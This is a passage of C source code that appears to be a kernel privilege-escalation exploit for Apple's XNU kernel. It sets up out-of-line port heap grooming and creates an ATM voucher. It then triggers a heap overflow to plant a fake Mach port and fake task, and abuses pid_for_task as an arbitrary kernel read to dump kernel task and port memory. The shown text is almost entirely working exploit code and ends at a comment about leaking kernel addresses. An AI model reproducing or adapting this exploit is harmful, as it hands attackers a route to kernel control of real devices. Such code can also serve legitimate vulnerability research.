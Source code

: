			*(uint64_t*) (fake_task + TASK_INFO_GAP) = pCurrent - 0x10;
			pid_for_task(manipulated_port, (int32_t*)&pNext);
			*(uint64_t*) (fake_task + TASK_INFO_GAP) = pCurrent - 0x0C;
			pid_for_task(manipulated_port, (int32_t*)(((uint64_t)(&pNext)) + 4));
			pCurrent = pNext;
		}
	}

}

dumpdata* get_kernel_priv(uint64_t kernel_process, uint64_t* fake_port, void* fake_task, mach_port_t* manipulated_port){
	dumpdata* data = (dumpdata *)malloc(sizeof(dumpdata));
	data->dump_port = malloc(0x1000);
	data->dump_task = malloc(0x1000);

	uint64_t kern_task = 0;
	*(uint64_t*) (fake_task + TASK_INFO_GAP) = (kernel_process + 0x18) - 0x10 ;
	pid_for_task(manipulated_port, (int32_t*)&kern_task);
	*(uint64_t*) (fake_task + TASK_INFO_GAP) = (kernel_process + 0x1C) - 0x10;
	pid_for_task(manipulated_port, (int32_t*)(((uint64_t)(&kern_task)) + 4));

	uint64_t itk_kern_sself = 0;
	*(uint64_t*) (fake_task + TASK_INFO_GAP) = (kern_task + ITK_KERN_SSELF_GAP_IN_TASK) - 0x10;
	pid_for_task(manipulated_port, (int32_t*)&itk_kern_sself);
	*(uint64_t*) (fake_task + TASK_INFO_GAP) = (kern_task + ITK_KERN_SSELF_GAP_IN_TASK + 4) - 0x10;
	pid_for_task(manipulated_port, (int32_t*)(((uint64_t)(&itk_kern_sself)) + 4));
	data->dump_itk_kern_sself = itk_kern_sself;

	for (int i = 0; i < 256; i++) {
		*(uint64_t*) (fake_task + TASK_INFO_GAP) = (itk_kern_sself + i*4) - 0x10;
		pid_for_task(manipulated_port, (int32_t*)(data->dump_port + (i*4)));
	}
	for (int i = 0; i < 256; i++) {
		*(uint64_t*) (fake_task + TASK_INFO_GAP) = (kern_task + i*4) - 0x10;
		pid_for_task(manipulated_port, (int32_t*)(data->dump_task + (i*4)));
	}
	return data;
}

void main(void){
	// Create OOL Ports [Fengshui]
	mach_port_t* created_ports = ool_port_fengshui();

	// Create ATM Voucher & fakeport => ipc_object [Overflow ready]
	mach_port_t* voucher_port = MACH_PORT_NULL;
	mach_voucher_attr_recipe_data_t atm_data = {
		.key = MACH_VOUCHER_ATTR_KEY_ATM,
		.command = MACH_VOUCHER_ATTR_ATM_CREATE
	};
	kern_return_t err = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &voucher_port);

	ipc_object* fake_port = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANON, -1, 0); // alloc fake_port
	void* fake_task = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANON, -1, 0); // alloc fake_task
	fake_port->io_bits = IO_BITS_ACTIVE | IKOT_CLOCK; // for clock trap
	fake_port->io_lock_data[12] = 0x11;
	printf("[+] Create Fake Port. Address : %llx\n", (unsigned long long)fake_port);
	
	// Overflow Trigger
	heap_overflow(0x100, 0x8, (unsigned char *)&fake_port, voucher_port);
	
	// Find manipulated port
	mach_port_t* manipulated_port = find_manipulation_port(created_ports);

	// Leak Kernel Address using system clock trap => clock_list